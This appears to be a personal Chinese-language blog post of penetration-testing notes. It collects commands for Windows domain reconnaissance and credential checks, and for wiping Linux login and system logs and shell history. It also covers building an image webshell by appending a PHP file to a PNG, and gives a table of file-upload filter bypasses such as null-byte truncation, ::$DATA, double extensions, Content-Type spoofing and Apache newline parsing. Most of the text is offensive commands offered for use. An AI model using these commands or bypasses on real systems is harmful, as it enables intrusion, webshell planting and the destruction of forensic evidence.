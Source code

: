 ```yaml
---
layout: post
cover: 'assets/images/start.jpg'
title: Notes
date:   2018-02-01
tags: web
subclass: 'post'
navigation: True
logo: 'assets/images/ghost.png'
---
```


---

### 1. Kali使用pptp VPN

apt-get install network-manager-pptp network-manager-pptp-gnome

Settings->Network->VPN

在高级选项中去掉PAP,CHAP,EAP

勾选上点到点加密(MPPE)

### 2. Windows使用pptp VPN

创建成功后，VPN属性->安全->VPN类型，选择点对点隧道协议(PPTP)


### 3. domain

```
net user
net localgroup administrators
net group "domain computers" /domain
net group "Enterprise Admins" /domain
net group "Domain Admins" /domain
net view
```

### 4、获得当前的公网ip

https://api.ipify.org/

### 5、扫描Windows网络上NetBIOS名字信息

nbtscan 192.168.1.0/24

### 6、Linux擦除日志

```
echo "">/var/log/wtmp
echo ""> /var/log/btmp
echo ""> /var/log/lastlog
echo ""> /var/log/messages 
echo ""> /var/log/syslog 
echo ""> /var/log/sulog
history -c
```

### 7、域渗透

```
ipconfig /all                ------ 查询本机IP段，所在域等
net user                     ------ 本机用户列表
net localgroup administrators            ------ 本机管理员[通常含有域用户]
net user /domain                         ------ 查询域用户
net group /domain                        ------ 查询域里面的工作组
net group "domain admins" /domain        ------ 查询域管理员用户组
net localgroup administrators /domain    ------ 登录本机的域管理员
net localgroup administrators workgroup\user001 /add   ------域用户添加到本机
net group "domain controllers" /domain        ------ 查看域控制器(如果有多台)
net time /domain                   ------ 判断主域，主域服务器都做时间服务器
net config workstation             ------ 当前登录域
net session                        ------ 查看当前会话
net use \\ip\ipc$ pawword /user:username      ------ 建立IPC会话[空连接-***]
net share                          ------  查看SMB指向的路径[即共享]
net view                           ------ 查询同一域内机器列表
net view \\ip                      ------ 查询某IP共享
net view /domain                   ------ 查询域列表
net view /domain:domainname        ------ 查看workgroup域中计算机列表
net start                          ------ 查看当前运行的服务
net accounts                       ------  查看本地密码策略
net accounts /domain               ------  查看域密码策略
nbtstat –A ip                      ------netbios 查询
netstat –an/ano/anb                ------ 网络连接查询
route print                        ------ 路由表tasklist /V                        ----- 查看进程[显示对应用户]
tasklist /S ip /U domain\username /P /V             ----- 查看远程计算机进程列表
qprocess *                         ----- 类似tasklist
qprocess /SERVER:IP                ----- 远程查看计算机进程列表
nslookup –qt-MX Yahoo.com          ----- 查看邮件服务器
whoami /all                        ----- 查询当前用户权限等
set                                ----- 查看系统环境变量
systeminfo                         ----- 查看系统信息
qwinsta                            ----- 查看登录情况
qwinsta /SERVER:IP                 ----- 查看远程登录情况
fsutil fsinfo drives               ----- 查看所有盘符
gpupdate /force                    ----- 更新域策略cmdkey /l                          ----- 看是否保存了登陆凭证。（攻击者会先查看管理员是否保留了登陆凭证，方便后续的凭证抓取。）  echo %logonserver%                 ----- 查看登陆域
```


### 8、制作图片马

http://www.sohu.com/a/127074604_472906


准备一个图片文件`1.png`和一个一句话木马文件`hack.php`

```
copy 1.png/b+hack.php test.png
```

生成新文件`test.png`


### 9、文件上传

https://www.freebuf.com/articles/web/201421.html

```
操作	说明
前端禁用JS	前端限制，禁用JS，去除input标签的accept属性
修改文件后缀	抓包工具，修改文件后缀为黑名单之外的后缀
修改文件后缀	修改文件后缀为index.jpg.php
修改文件后缀	%00截断，比如index.php%00.jpg
修改文件后缀	文件名末尾添加::$DATA，windows会把::$DATA之后的数据当成文件流，不会检测后缀名.且保持::$DATA之前的文件名
修改文件后缀	在linux主机上的文件名大小写敏感，文件后缀大小混写
修改文件后缀	在文件末尾添加空格，黑名单的方式没法儿检测
修改文件类型	抓包工具，修改Content-Type:image/png
修改文件后缀	修改文件名shell.php:.jpg，上传后会得到一个空的文件shell.php，然后修改文件名为shell.>>>或者shell.<、shell.<<<、shell.>><再上传，重写shell.php
换行解析	Apache2.4.0~2.4.29换行解析漏洞%0d，%0a(CR,LF(回车，换行))
未知后缀名	Apache配置AddHandler application/x-httpd-php .php不当导致未知后缀脚本执行
后缀名正则替换	这种需要构造，使得替换之后的可以重组成为新的可执行后缀，双后缀名绕过
修改上传路径	name="upload_file/1.php%00"; filename="shell.jpg"
条件竞争	条件竞争删除/重命名文件时间差绕过
图片马	copy code.jpg/b + shell.php/b hourse.jpg
图片重绘包含马	做一个就好了
上传压缩包	配合PHP伪协议、文件协议等读取执行本地文件
数据库写文件	UDF，select查询输入
```

### 10、Default Password

https://cirt.net/passwords

### 11、AWVS

https://www.jb51.net/softs/659643.html

### 12.

![](https://raw.githubusercontent.com/4young/blog/master/photo/linux.png)
